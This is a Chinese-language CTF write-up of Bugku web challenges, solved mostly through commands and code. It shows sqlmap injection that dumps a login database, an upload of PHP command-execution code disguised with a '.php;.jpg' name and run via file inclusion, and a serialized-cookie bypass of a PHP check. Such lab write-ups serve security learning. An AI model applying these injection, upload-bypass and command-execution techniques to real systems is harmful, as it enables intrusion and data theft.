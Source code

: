 web部分的37-50题

# 这是一个神奇的登陆框

![这是一个神奇的登陆框](https://raw.githubusercontent.com/xunzhanggzl/bugkuWU/master/image/web_img/%E8%BF%99%E6%98%AF%E4%B8%80%E4%B8%AA%E7%A5%9E%E5%A5%87%E7%9A%84%E7%99%BB%E5%BD%95%E6%A1%86.png)

首先进行抓包，如上图所示，输入 admin 和 123456，保存为 1.txt，放在 E:\杂\c加加 目录下，然后用 `sqlmap` 进行注入。

```bash
# 使用下面的命令爆破出了数据库名称为 bugkusql1
sqlmap>sqlmap.py -r "E:\杂\c加加\1.txt" -p admin_name --dbs

# 结果
available databases [2]:
[*] bugkusql1
[*] information_schema
```

```bash
# 使用下面的命令进行爆表
sqlmap>sqlmap.py -r "E:\杂\c加加\1.txt" -D bugkusql1 -p admin_name --tables

# 结果
Database: bugkusql1
[2 tables]
+--------+
| flag1  |
| whoami |
+--------+
```

```bash
# 使用下面的命令爆列名
sqlmap>sqlmap.py -r "E:\杂\c加加\1.txt" -D bugkusql1 -T flag1 -p admin_name --columns

# 结果
Database: bugkusql1
Table: flag1
[1 column]
+--------+-------------+
| Column | Type        |
+--------+-------------+
| flag1  | varchar(50) |
+--------+-------------+
```

```bash
# 使用下面的命令查字段

sqlmap>sqlmap.py -r "E:\杂\c加加\1.txt" -D bugkusql1 -T flag1 -C flag1 -p admin_name --dump

# 结果
Database: bugkusql1
Table: flag1
[1 entry]
+----------------------------------+
| flag1                            |
+----------------------------------+
| ed6b28e684817d9efcaf802979e57aea |
+----------------------------------+
```

爆出了flag。

# PHP_encrypt_1(ISCCCTF)

题目给了一段密文：fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA=

还有一个压缩包，解压后发现了下面的php代码

```php
<?php
function encrypt($data,$key)
{
    $key = md5('ISCC');
    $x = 0;
    $len = strlen($data);
    $klen = strlen($key);
    for ($i=0; $i < $len; $i++) { 
        if ($x == $klen)
        {
            $x = 0;
        }
        $char .= $key[$x];
        $x+=1;
    }
    for ($i=0; $i < $len; $i++) {
        $str .= chr((ord($data[$i]) + ord($char[$i])) % 128);
    }
    return base64_encode($str);
}
?>
```

写出相应的脚本如下，运行下面的解密代码即可得到flag

```python
import base64
import hashlib


def decrypt(b64):
    b64 = str(base64.b64decode(b64), encoding='utf8')  # base64转换后是byte类型数据
    key = 'ISCC'
    m = hashlib.md5()
    m.update(key.encode())
    md = m.hexdigest()
    b64_len = len(b64)
    x = 0
    char = ''
    for i in range(b64_len):  # strlen($str)==strlen($char)==strlen($data)
        if x == len(md):
            x = 0
        char += md[x]
        x += 1
    data = ''
    # 也可不进行正负判断：data += chr((ord(b64[i]) - ord(char[i])+128) % 128)
    for i in range(b64_len):
        d = ord(b64[i]) - ord(char[i])
        if d > 0:  # 进行判断，如果相减小于0，说明需要加上128
            data += chr(d)
        else:
            data += chr(d + 128)
    print(data)


if __name__ == "__main__":
    b64 = 'fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA='
    decrypt(b64)

```

# 文件包含2

查看源码，发现注释中有 upload.php 的提示，于是打开 http://123.206.31.85:49166/upload.php，发现是文件上传。

在php文件里写入 `<script language=php>system("ls")</script>` ，列当前目录，修改后缀名为jpg,如1.php;.jpg,上传成功，如下图所示：

![文件包含2](https://raw.githubusercontent.com/xunzhanggzl/bugkuWU/master/image/web_img/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB2.png)

访问 http://123.206.31.85:49166/index.php?file=upload/201911191206089664.jpg，提示我们：about hello.php index.php this_is_th3_F14g_154f65sd4g35f4d6f43.txt upload upload.php。

然后访问 http://123.206.31.85:49166/index.php?file=this_is_th3_F14g_154f65sd4g35f4d6f43.txt，得到flag

# flag.php

提示：hint，于是在URL后面加一个hint参数 http://123.206.87.240:8002/flagphp/?hint=1，得到了下面的php代码。变成一道代码审计题了，要我们在 COOKIE 字段中添加 ISecer 参数,值是 $KEY 序列化后的值。

**其中有三个地方需要注意：**

**1、需要用到cookie注入**

**2、cookie注入时的payload要用到反序列化**

**3、反序列化后还需要与$KEY类型相同，因为是“$KEY”，所以我们提交的cookie得是一个空字符串**

```php
<?php
error_reporting(0);
include_once("flag.php");
$cookie = $_COOKIE['ISecer'];
if(isset($_GET['hint'])){
    show_source(__FILE__);
}
elseif (unserialize($cookie) === "$KEY")
{   
    echo "$flag";
}
else {
?>

<?php
}
$KEY='ISecer:www.isecer.com';
?>
```

写个 script，把 $KEY 序列化后的值打印出来

```php
<?php
  $KEY = '';
  $cookie = serialize($KEY);
  echo $cookie;
?>
```

运行上面的代码，输出：`s:0:"";` 然后进行burpsuite 抓包，如下图所示，得到了flag

![flag.php](https://raw.githubusercontent.com/xunzhanggzl/bugkuWU/master/image/web_img/flagphp.png)

# sql注入2

题目网站：http://123.206.87.240:8007/web2/

直接在后面加上 flag，即http://123.206.87.240:8007/web2/flag，然后下载了一个文件结果就是flag，但是不知道是什么原因，御剑没有扫出来。

# Trim的日记本

使用御剑扫描出来下面的结果

![Trim的日记本](https://raw.githubusercontent.com/xunzhanggzl/bugkuWU/master/image/web_img/Trim%E7%9A%84%E6%97%A5%E8%AE%B0%E6%9C%AC.png)

然后打开发现 show.php，竟然真的是 flag

![Trim的日记本](https://raw.githubusercontent.com/xunzhanggzl/bugkuWU/master/image/web_img/trim.png)